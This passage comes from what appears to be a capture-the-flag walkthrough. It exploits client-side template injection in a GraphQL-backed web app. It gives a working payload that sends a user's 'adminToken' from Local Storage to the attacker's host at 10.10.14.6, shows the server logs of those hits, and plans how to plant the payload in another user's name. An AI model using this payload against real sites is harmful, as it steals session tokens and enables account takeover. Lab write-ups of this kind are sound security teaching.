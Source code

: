 To leak the value from Local Storage, I'll make sure mine exists (it
gets cleared each time my account is nuked), and try this payload:



    {{constructor.constructor('fetch("http://10.10.14.6/" + localStorage.getItem("adminToken"))')()}}



On submitting this as my name, there's a request at my Python webserver:



    10.10.14.6 - - [27/Jul/2022 18:01:55] code 404, message File not found
    10.10.14.6 - - [27/Jul/2022 18:01:55] "GET /fakeAdminToken HTTP/1.1" 404 -
    10.10.14.6 - - [27/Jul/2022 18:01:55] code 404, message File not found
    10.10.14.6 - - [27/Jul/2022 18:01:55] "GET /fakeAdminToken HTTP/1.1" 404 -



Looking in the Dev Tools console, it seems the request to my VM was
blocked twice, and yet, there are hits:

![](/img/image-20220727152353617.png)

### Attempt to Update Larry

#### Get Larry's UserID

To get that CSTI payload run by Larry, I'll need to get it into the
GraphQL as their first or last name. To do this, I'll need to at a
minimum know Larry's (it's not clear to me at this point if that's
enough, or if I'll have to find a way to get Larry to send the POST to
make the change).

Looking at the GraphQL Schema in the Playground and in Voyager, there's
a Query named `tasks` that takes a required `username` and returns a
list of tasks:

![](/img/image-20220727155346944.png)

I'll run a query like this in the Playground and get the tasks assigned
to Larry:

